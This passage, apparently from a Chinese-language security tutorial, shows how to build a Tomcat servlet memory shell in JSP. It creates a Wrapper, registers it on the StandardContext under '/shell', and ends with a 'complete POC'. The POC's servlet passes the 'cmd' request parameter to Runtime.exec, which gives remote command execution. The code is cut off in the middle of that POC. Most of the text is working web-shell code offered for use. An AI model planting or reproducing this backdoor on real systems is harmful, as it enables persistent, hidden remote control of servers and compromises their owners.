 ```java
            return null;
        }
        @Override
        public void destroy() {
        }
    }
 
%>
```
### 4.3.7、创建Wrapper对象
```java
<%
    Shell_Servlet shell_servlet = new Shell_Servlet();
    String name = shell_servlet.getClass().getSimpleName();
 
    Wrapper wrapper = standardContext.createWrapper();
    wrapper.setLoadOnStartup(1);
    wrapper.setName(name);
    wrapper.setServlet(shell_servlet);
    wrapper.setServletClass(shell_servlet.getClass().getName());
%>
```
### 4.3.8、将Wrapper添加到StandardContext
```java
<%
    standardContext.addChild(wrapper);
    standardContext.addServletMappingDecoded("/shell",name);
%>
```
### 4.3.9、完整POC
```java
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.catalina.Wrapper" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
 
<%
    Field reqF = request.getClass().getDeclaredField("request");
    reqF.setAccessible(true);
    Request req = (Request) reqF.get(request);
    StandardContext standardContext = (StandardContext) req.getContext();
%>
 
<%!
 
    public class Shell_Servlet implements Servlet {
        @Override
        public void init(ServletConfig config) throws ServletException {
        }
        @Override
        public ServletConfig getServletConfig() {
            return null;
        }
        @Override
        public void service(ServletRequest req, ServletResponse res) throws ServletException, IOException {
            String cmd = req.getParameter("cmd");
            if (cmd !=null){
                try{
                    Runtime.getRuntime().exec(cmd);
```